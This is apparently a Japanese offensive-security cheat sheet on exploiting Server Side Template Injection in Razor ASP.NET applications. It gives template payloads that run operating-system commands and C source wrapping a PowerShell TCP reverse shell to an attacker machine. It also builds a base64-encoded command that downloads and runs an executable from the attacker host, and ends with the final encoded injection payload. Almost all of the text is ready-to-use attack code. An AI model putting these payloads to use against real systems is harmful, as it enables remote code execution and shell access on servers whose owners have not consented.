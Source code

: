 # Server Side Template Injection

Razor ASP.NET

## 脆弱性診断

    ``` c#
        //画面に 49 が返ってくればOK
        @{7*7}
        @() 
        @("{{code}}") 
        //下の方法でいろんなコマンドが実行できる
        @System.Diagnostics.Process.Start("cmd.exe","コマンド");
    ```

## Exploit

* reverse shell
  * msfvenomでexeファイルを作成
  * 下のcのソースを使ってexeを作成して転送(以外と万能)

        ```c
            #include <windows.h>
            #include <stdio.h>

            int main(){
                system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
                return 0;
            }
        ```

  * アプリケーション上で実行させるコマンドの生成

        ``` powershell
            $command = ' iwr -uri http://<kali ip>/XXX.exe -OutFile C:\Windows\Tasks\XXX.exe; C:\Windows\Tasks\XXX.exe'
            $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
            $encodedCommand = [Convert]::ToBase64String($bytes)
        ```

            作成後　転送　ncで待ち受け

  * 作成したコードを貼り付けて実行

        ```c#
            @System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc
            IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
        ```
